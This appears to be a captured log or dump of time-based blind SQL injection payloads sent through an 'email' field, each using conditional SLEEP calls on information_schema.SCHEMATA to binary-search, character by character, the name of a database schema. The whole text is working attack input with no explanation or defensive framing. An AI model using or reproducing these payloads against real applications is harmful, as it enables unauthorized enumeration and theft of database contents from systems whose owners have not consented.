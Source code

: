 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=101,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=109,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=97,SLEEP(0.122010510204),SLEEP(0)) -- -}
